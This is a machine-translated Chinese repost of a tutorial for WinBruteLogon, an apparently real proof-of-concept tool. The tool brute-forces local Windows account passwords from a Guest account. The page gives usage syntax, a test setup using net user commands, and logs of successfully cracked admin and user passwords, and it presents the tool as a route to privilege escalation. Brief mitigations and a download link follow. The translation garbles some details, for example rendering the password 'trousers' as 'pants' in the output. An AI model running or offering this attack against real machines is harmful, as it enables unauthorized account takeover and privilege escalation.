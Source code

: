 # 暴力登录:破解任何微软视窗用户的密码，没有任何特权

> 原文：<https://kalilinuxtutorials.com/win-brute-logon/>

[![](img/43a287300175f4709fea06825e33207b.png)](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEjHL9VPAU-Qhra4H61NiE6ZWP_3WV_OFgEX6-IgK2_gY7AD7eMCgSkV0EYnDy8mKDOu6RDLe_VtcowtIslUtyZAmNIEaycs8AE9mHmfaGXYkvRElwAJX4QPLvh-E3FlIkTyDhkW4wi39nnGRc2YLRepsGdCzyVXbRDdAzU0WnJ-WQBbYUKzOJMaKP50/s728/hack-windows-7-8-10-admin-account-password-with-windows-magnifier.1280x600.png)

我认为，与其说 PoC 是一个漏洞，不如说它是微软 Windows 认证机制中的一个严重缺陷。

最大的问题是缺少执行此类操作所需的特权。

事实上，从 Guest 帐户(Microsoft Windows 上最受限制的帐户)，您可以破解任何可用的本地用户的密码。

使用命令`**net user**`找出存在哪些用户

此概念验证使用多线程来加快进程，并支持 32 位和 64 位。

## 使用

### Wordlist 文件

`**WinBruteLogon.exe -u <username> -w <wordlist_file>**`

### 欢迎使用 Wordlist

`**type <wordlist_file> | WinBruteLogon.exe -u <username> -**`

# poco 测试场景 _ 使用来宾帐户)

在 Windows 10 上测试

安装和配置全新更新的 Windows 10 虚拟机或物理机。

在我的例子中，完整的 Windows 版本是:`**1909 (OS Build 18363.778)**`

以管理员身份登录，让我们创建两个不同的帐户:一个管理员和一个普通用户。两个用户都是本地用户。

/!\重要通知:我在演示中使用了来宾帐户，但此概念验证不仅限于来宾帐户，它可以在任何帐户/组(来宾用户/普通用户/管理员用户等)中使用

## 创建新的管理员用户

`**net user darkcodersc /add**`

`**net user darkcodersc trousers**`(裤子是密码)

`**net localgroup administrators darkcodersc /add**`

## 创建普通用户

`**net user HackMe /add**`

`**net user HackMe ozlq6qwm**` (ozlq6qwm 为密码)

## 创建新的客人账户

`**net user GuestUser /add**`

`**net localgroup users GuestUser /delete**`

`**net localgroup guests GuestUser /add**`

## 获取单词表

在我的例子中，`**trousers**`和`**ozlq6qwm**`都在 SecList 中:https://github . com/danielmiessler/sec lists/blob/master/Passwords/Common-Credentials/10k-most-Common . txt

## 开始攻击

从管理员帐户注销或重新启动您的机器并登录到来宾帐户。

将 PoC 可执行文件放在您作为来宾用户可以访问的任何地方。

用法:`**WinBruteLogon.exe -v -u <username> -w <wordlist_file>**`

`**-v**`是可选的，它设计了详细模式。

默认情况下，域名是由`**%USERDOMAIN%**` env var 指定的值。您可以使用选项`**-d**`指定自定义名称

### 破解第一用户:`**darkcodersc**`(管理员)

提示(客人)>`**WinBruteLogon.exe -v -u darkcodersc -w 10k-most-common.txt**`

等待几秒钟，查看以下结果:

**[..]在内存中加载 10k-most-common.txt 文件…
【完成】10002 密码加载成功。
【信息】2 个内核可用
[..]创建 2 个线程…
[信息]用 id=2260，handle=364 创建的新“TWorker”线程
[信息]用 id=3712，handle=532 创建的新“TWorker”线程
[DONE]完成。
[ OK ]用户名=[darkcodersc]和域=[DESKTOP-0885FP1]的密码找到=[pants]
[..]完成并关闭工作线程…
[信息]“工作线程”(id=2260，handle=364)线程成功终止。
[信息]“工作器”(id=3712，handle=532)线程成功终止。
【完成】完成。
【信息】耗时:00:00:06**

### 破解第二用户:`**HackMe**`(普通用户)

提示(客人)>`**WinBruteLogon.exe -v -u HackMe -w 10k-most-common.txt**`

等待几秒钟，查看以下结果:

**[..]在内存中加载 10k-most-common.txt 文件…
【完成】10002 密码加载成功。
【信息】2 个内核可用
[..]创建 2 个线程…
[信息]用 id=5748，handle=336
创建新的“TWorker”线程，用 id=4948，handle=140
[DONE]完成。
[ OK ]用户名=[HackMe]和域=[DESKTOP-0885FP1]的密码找到= [ozlq6qwm]
[..]完成并关闭工作线程…
[信息]“工作线程”(id=5748，handle=336)线程成功终止。
[信息]“工作器”(id=4948，handle=140)线程成功终止。
【完成】完成。
【信息】耗时:00:00:06**

# 真实世界场景

如果您获得了低特权用户的访问权限，您就可以破解更高特权用户的密码并提升您的特权。

# 缓解(一般)

*   禁用来宾帐户(如果有)。
*   申请白名单。
*   遵循指南创建并保持强密码。将此应用于所有用户。

## 实施安全锁定策略(默认情况下不存在)

打开`**secpol.msc**`，然后转到`**Account Policies**` > `**Account Lockout Policy**`，用期望值(1 到 999)编辑值`**Account lockout threshold**`。

值表示锁定前可能的尝试次数。

/!\锁定策略不适用于管理员帐户。此时，最好的保护管理员帐户(如果启用)是设置一个非常复杂的密码。

[**Download**](https://github.com/DarkCoderSc/win-brute-logon)